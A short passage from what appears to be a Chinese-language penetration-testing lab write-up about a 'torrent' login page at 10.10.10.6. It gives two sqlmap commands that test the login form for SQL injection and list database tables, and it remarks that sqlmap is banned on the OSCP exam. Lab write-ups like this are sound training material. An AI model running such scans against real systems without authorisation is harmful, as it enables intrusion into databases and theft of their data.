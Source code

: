 ![](img/9d1e797ad3794f3365d126192650e371.png)

登录请求

sqlmap 扫描可能如下所示:

```
sqlmap -r login.req
```

或者

```
sqlmap -u [http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php) --data="password=test&username=test" --method POST --tables
```

Sqlmap 在 OSCP 考试中是不允许的，但我仍然想尝试一下。令我惊讶的是，它真的工作了，结果我得到了两个不同表的数据库:
